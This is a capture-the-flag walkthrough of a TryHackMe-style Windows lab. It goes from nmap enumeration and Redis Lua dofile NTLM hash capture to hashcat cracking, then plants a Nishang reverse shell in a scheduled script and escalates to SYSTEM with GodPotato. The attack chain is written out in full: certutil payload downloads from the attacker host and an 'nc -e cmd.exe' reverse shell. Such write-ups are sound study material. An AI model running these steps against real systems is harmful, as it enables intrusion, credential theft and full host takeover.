


As usual, I started this machine with a three-stage Nmap port scan. The first scan covers all 65,535 TCP ports to identify which ones are open; the second targets those open ports to determine the specific services and versions running; and the final scan performs a UDP scan on the top 10 ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:09 UTC
Nmap scan report for 10.82.180.250
Host is up (0.10s latency).
Not shown: 65523 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
53/tcp open domain
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
464/tcp open kpasswd5
6379/tcp open redis
9389/tcp open adws
49666/tcp open unknown
49667/tcp open unknown
49672/tcp open unknown
49677/tcp open unknown
49700/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 53,135,139,445,464,6379,9389,49666,49667,49672,49677,49700
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:11 UTC
Nmap scan report for 10.82.180.250
Host is up (0.10s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
6379/tcp open redis Redis key-value store 2.8.2402
9389/tcp open mc-nmf .NET Message Framing
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49672/tcp open msrpc Microsoft Windows RPC
49677/tcp open msrpc Microsoft Windows RPC
49700/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2026-02-01T19:12:23
|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 96.34 secondsd
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:14 UTC
Nmap scan report for 10.82.180.250
Host is up (0.10s latency).
PORT STATE SERVICE
53/udp open domain
67/udp open|filtered dhcps
123/udp open ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp open|filtered microsoft-ds
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 2.14 seconds
Whenever I see the SMB service running, I always run Nmap scripts and use smbclient and smbmap to check if Null Authentication is possible. In this case, it appears the Null Authentication is disallowed.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-01 19:18 UTC
Nmap scan report for 10.82.180.250
Host is up (0.099s latency).
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 43.72 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
Anonymous login successful
Sharename Type Comment
--------- ---- -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.82.180.250 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP
________ ___ ___ _______ ___ ___ __ _______
/" )|" \\ /" || _ "\\ |" \\ /" | /""\\ | __ "\\
(: \\___/ \\ \\ // |(. |_) :) \\ \\ // | / \\ (. |__) :)
\\___ \\ /\\ \\/. ||: \\/ /\\ \\/. | /' /\\ \\ |: ____/
__/ \\ |: \\. |(| _ \\ |: \\. | // __' \\ (| /
/" \\ :) |. \\ /: ||: |_) :)|. \\ /: | / / \\ \\ /|__/ \\
(_______/ |___|\\__/|___|(_______/ |___|\\__/|___|(___/ \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
<https://github.com/ShawnDEvans/smbmap>
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Access denied on 10.82.180.250, no fun for you...
[*] Closed 1 connections
I also identified that the Redis service is running. Whenever Redis is active, the first thing I check is whether I can connect via redis-cli without requiring a username or password. Furthermore, I confirmed that the info command can be executed successfully.
┌──(kali㉿kali)-[~/Desktop]
└─$ redis-cli -h $IP
10.82.180.250:6379> info
# Server
redis_version:2.8.2402
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:b2a45a9622ff23b7
redis_mode:standalone
os:Windows
arch_bits:64
multiplexing_api:winsock_IOCP
process_id:1944
run_id:8db85b7c8b8d123cc0a77b92cdcbab65f504ad5a
tcp_port:6379
uptime_in_seconds:913
uptime_in_days:0
hz:10
lru_clock:8366146
config_file:
# Clients
connected_clients:1
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0
# Memory
used_memory:952800
used_memory_human:930.47K
used_memory_rss:919256
used_memory_peak:952800
used_memory_peak_human:930.47K
used_memory_lua:36864
mem_fragmentation_ratio:0.96
mem_allocator:dlmalloc-2.8
# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
...
...
config get * command lists all the configuration data of the running Redis server and the value of dir gives me a hint about the user: enterprise-security .
103) "dir"
104) "C:\\\\Users\\\\enterprise-security\\\\Downloads\\\\Redis-x64-2.8.2402"
When I encounter services like Redis that I don’t see every day, I rely on various research resources, with HackTricks always being my first point of reference. According to HackTricks, Redis allows the execution of Lua code via the EVAL command; however, this runs within a sandbox to prevent dangerous actions. In older versions, it was possible to bypass this sandbox and read or execute server files using the dofile function.
Knowing that the target is a Windows OS, I attempted to execute the C:/Windows/System32/drivers/etc/hosts file. Although it returned an error, the specific message confirmed that the system indeed attempted to read and execute the file.
10.81.142.229:6379> EVAL "dofile('C:/Windows/System32/drivers/etc/hosts')" 0
(error) ERR Error running script (call to f_c6c182cf35bcfa6b59bffc57f357bbb02486158f): @user_script:1: C:/Windows/System32/drivers/etc/hosts:2: unexpected symbol near '#'
I will exploit this behavior to intercept an NTLM hash using Responder . The attack flow is as follows:
dofile('//My-IP/share') via the Lua engine.sudo responder -I tun0

┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat --identify hash.txt
The following hash-mode match the structure of your input hash:
# | Name | Category
======+============================================================+======================================
5600 | NetNTLMv2 | Network Protocol
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
I successfully cracked the hash with Hashcat .
ENTERPRISE-SECURITY::VULNNET:9252f081e4c6f339:0154372585020e60c49a9a6834da0b73:010100000000000080fada3ab793dc01d1cbc8ef30759d9f00000000020008004e0030005600470001001e00570049004e002d00540032004a004600510035004a0044004f005a00380004003400570049004e002d00540032004a004600510035004a0044004f005a0038002e004e003000560047002e004c004f00430041004c00030014004e003000560047002e004c004f00430041004c00050014004e003000560047002e004c004f00430041004c000700080080fada3ab793dc01060004000200000008003000300000000000000000000000003000003282d9bc1ebe8f84ed48f37e5712ddb88c305f5073dea8faae4806653e115d760a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003100370036002e003100350037000000000000000000:sand_0873959498
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ENTERPRISE-SECURITY::VULNNET:9252f081e4c6f339:01543...000000
Time.Started.....: Sun Feb 1 20:16:22 2026 (5 secs)
Time.Estimated...: Sun Feb 1 20:16:27 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 877.7 kH/s (0.89ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4014080/14344385 (27.98%)
Rejected.........: 0/4014080 (0.00%)
Restore.Point....: 4012032/14344385 (27.97%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: sandovalbravo -> sand418
Hardware.Mon.#1..: Util: 69%
Using the username and the password obtained from hash cracking, I used smbclient and smbmap to investigate available shares and their respective permissions. I discovered that the user has both READ and WRITE access to the Enterprise-Share, so I proceeded to connect to that share.
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -L //$IP -U 'enterprise-security%sand_0873959498'
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Enterprise-Share Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.81.142.229 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP -u enterprise-security -p sand_0873959498
________ ___ ___ _______ ___ ___ __ _______
/" )|" \\ /" || _ "\\ |" \\ /" | /""\\ | __ "\\
(: \\___/ \\ \\ // |(. |_) :) \\ \\ // | / \\ (. |__) :)
\\___ \\ /\\ \\/. ||: \\/ /\\ \\/. | /' /\\ \\ |: ____/
__/ \\ |: \\. |(| _ \\ |: \\. | // __' \\ (| /
/" \\ :) |. \\ /: ||: |_) :)|. \\ /: | / / \\ \\ /|__/ \\
(_______/ |___|\\__/|___|(_______/ |___|\\__/|___|(___/ \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
<https://github.com/ShawnDEvans/smbmap>
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)
[+] IP: 10.81.142.229:445 Name: 10.81.142.229 Status: Authenticated
Disk Permissions Comment
---- ----------- -------
ADMIN$ NO ACCESS Remote Admin
C$ NO ACCESS Default share
Enterprise-Share READ, WRITE
IPC$ READ ONLY Remote IPC
NETLOGON READ ONLY Logon server share
SYSVOL READ ONLY Logon server share
[*] Closed 1 connections
Inside the share, I found a single PowerShell script named PurgeIrrelevantData_1826.ps1 . The script simply removes everything inside the C:\Users\Public\Documents folder. Based on tis naming convention and functionality, it appears to be a part of a scheduled task.
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/Enterprise-Share/ -U 'enterprise-security%sand_0873959498'
Try "help" to get a list of possible commands.
smb: \\> dir
. D 0 Sun Feb 1 20:21:03 2026
.. D 0 Sun Feb 1 20:21:03 2026
PurgeIrrelevantData_1826.ps1 A 69 Wed Feb 24 00:33:18 2021
9558271 blocks of size 4096. 4973213 blocks available
smb: \\>
┌──(kali㉿kali)-[~/Desktop]
└─$ cat PurgeIrrelevantData_1826.ps1
rm -Force C:\\Users\\Public\\Documents\\* -ErrorAction SilentlyContinue
I downloaded the Invoke-PowerShellTcp.ps1 script from the Nishang repository and modified it to automatically invoke the function and trigger a reverse shell callback upon execution. I then renamed the file to PurgeIrrelevantData_1826.ps1 and overwrote the existing script in the Enterprise-Share.

┌──(kali㉿kali)-[~/Desktop]
└─$ mv Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
smb: \\> put PurgeIrrelevantData_1826.ps1
putting file PurgeIrrelevantData_1826.ps1 as \\PurgeIrrelevantData_1826.ps1 (12.2 kb/s) (average 12.2 kb/s)
smb: \\> dir
. D 0 Sun Feb 1 20:21:03 2026
.. D 0 Sun Feb 1 20:21:03 2026
PurgeIrrelevantData_1826.ps1 A 4405 Sun Feb 1 20:28:31 2026
9558271 blocks of size 4096. 4956468 blocks available
enterprise-securityAfter a moment, the reverse shell successfully called back to my listener.
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [192.168.176.157] from (UNKNOWN) [10.81.142.229] 49907
Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\\Users\\enterprise-security\\Downloads>whoami
vulnnet\\enterprise-security
Found user.txt
PS C:\\Users\\enterprise-security\\Desktop> dir
Directory: C:\\Users\\enterprise-security\\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 2/23/2021 8:24 PM 37 user.txt
PS C:\\Users\\enterprise-security\\Desktop> type user.txt
THM{3eb...
I confirmed that the current session has the SeImpersonatePrivilege enabled by running whoami /priv .
PS C:\\Users\\enterprise-security\\Desktop> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeMachineAccountPrivilege Add workstations to domain Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
To exploit this, I transferred the GodPotato exploit and a Netcat binary from my local kali machine to the target host.
PS C:\\Users\\enterprise-security\\Desktop> certutil -urlcache -split -f <http://192.168.176.157/GodPotato-NET4.exe> gp.exe
**** Online ****
0000 ...
e000
CertUtil: -URLCache command completed successfully.
PS C:\\Users\\enterprise-security\\Desktop> certutil -urlcache -split -f <http://192.168.176.157/nc64.exe> nc.exe
**** Online ****
0000 ...
aab0
CertUtil: -URLCache command completed successfully.
I confirmed that I could execute commands as the SYSTEM user by running the command below.
PS C:\\Users\\enterprise-security\\Desktop> .\\gp.exe -cmd "whoami"
[*] CombaseModule: 0x140735046483968
[*] DispatchTable: 0x140735048801456
[*] UseProtseqFunction: 0x140735048180352
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\\\.\\pipe\\e1e06003-bd2e-4a54-b482-e59217040421\\pipe\\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00005802-0ff4-ffff-851c-4377f4ccde38
[*] DCOM obj OXID: 0xdd40b48fac757312
[*] DCOM obj OID: 0xae68f20ba4c7a11a
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 864 Token:0x796 User: NT AUTHORITY\\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\\SYSTEM
[*] process start with pid 1072
SYSTEMFinally, I executed a reverse shell using GodPotato and the Netcat binary, which successfully triggered a callback to the listener running on my Kali machine.
PS C:\\Users\\enterprise-security\\Desktop> .\\gp.exe -cmd ".\\nc.exe 192.168.176.157 80 -e cmd.exe"
┌──(kali㉿kali)-[~/Desktop]
└─$ rlwrap nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.176.157] from (UNKNOWN) [10.81.191.7] 49822
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\\Windows\\system32>whoami
whoami
Found system.txt
C:\\Users\\Administrator\\Desktop>dir
dir
Volume in drive C has no label.
Volume Serial Number is AAC5-C2C2
Directory of C:\\Users\\Administrator\\Desktop
02/23/2021 08:27 PM <DIR> .
02/23/2021 08:27 PM <DIR> ..
02/23/2021 08:27 PM 37 system.txt
1 File(s) 37 bytes
2 Dir(s) 20,432,994,304 bytes free
C:\\Users\\Administrator\\Desktop>type system.txt
type system.txt
THM{d54...